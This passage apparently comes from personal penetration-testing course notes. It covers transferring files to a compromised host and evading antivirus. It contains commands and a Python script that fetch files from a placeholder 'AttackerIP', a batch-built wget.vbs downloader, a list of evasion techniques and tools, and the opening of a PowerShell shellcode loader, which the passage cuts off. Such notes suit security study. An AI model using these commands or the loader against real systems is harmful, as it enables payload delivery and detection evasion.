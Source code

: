 ```batch
    echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
    echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
    echo  Next >> wget.vbs 
    echo  ts.Close >> wget.vbs
```
 * BSD fetch to get files from web resources: `fetch -o /var/tmp/file "http://AttackerIP/file"`
 * python script for the same purpose:
```python
    #!/usr/bin/python 
    import urllib2 

    u = urllib2.urlopen('http://AttackerIP/file') 
    localFile = open('local_file', 'w') 
    localFile.write(u.read()) 
    localFile.close()
```

# Antivirus evasion
-------------------
Another section where I indeed had some theorethical background but was lacking practical experience.
It does not seem to be a cornerstone of this course, more like useful additional for rookies so that
they get in touch with real-world alike scenarios. Some well-known methods to sneak include:

 * packers
 * obfuscators
 * cryptors
 * protectors (enigma, vmp)
 * in-memory injections
 * reflective dll loading
 * process hollowing and doppelganging
 * inline hooks

Though these methods could easily bypass signature detections, one should be afraid of heuristics
and behavioral detections like HIPS. There's some great tools that allow one to obfuscate 
malicious binaries or scripts: [veil 3](https://github.com/Veil-Framework/Veil), 
[shellter](https://www.shellterproject.com/download/) (able to add malicious payload to benign binary),
metasploit encoders and stagers, ability to use powershell winapi interops.  
Some [useful powershell scripts](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution) are
available in powersploit repository.
Naive shellcode exection script may be as follows (somewhat simpler than ones from powersploit):
```powershell
$code = '
[DllImport("kernel32.dll"]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, 
    uint dwSize, 
    uint flAllocationType, 
    uint flProtect);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, 
    uint src, 
    uint count);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreatAttributes, 
    uint dwStackSize, 
    IntPtr lpStartAddress, 
    IntPtr lpParameter, 
    uint dwCreationFlags, 
```